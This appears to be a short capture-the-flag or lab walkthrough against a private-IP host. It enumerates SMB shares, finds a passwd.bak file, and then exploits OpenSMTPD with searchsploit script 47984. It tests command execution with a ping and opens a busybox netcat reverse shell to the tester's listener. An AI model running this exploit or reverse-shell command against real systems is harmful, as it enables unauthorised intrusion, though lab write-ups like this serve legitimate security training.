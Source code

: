 
# 445

Checking SMB, there's 2 shares:
![](attachment/6b4a4d9f3a228b5a142f71be8a6bb091.png)
Found passwd.bak:
![](attachment/3352ecd631699c7d38dc8d676936689a.png)
![](attachment/030abaf45ca00a705093078fcf065d36.png)


Now we can try an OpenSMTP exploit:
![](attachment/1bf94abcaed783932fb1ce02679f55c2.png)

```
searchsploit -m linux/remote/47984.py
```
testing out command execution:
```
python3 47984.py 192.168.182.71 25 'ping -c 10 192.168.45.236'
```
On our machine:
```
sudo tcpdump -i any -v icmp
```
![](attachment/4ada13a40cd4577817f136763ba560db.png)
We get back icmp packets

Now trying to get a shell back:
```
python3 47984.py 192.168.182.71 25 'busybox nc 192.168.45.236 445 -e /bin/bash'
```
on our machine:
```
sudo rlwrap nc -nlvp 445
```
![](attachment/d53a80d260fa991d40d7a4304cbd74fd.png)
![](attachment/31e9875e1ac86a8a495490f9e917c59f.png)

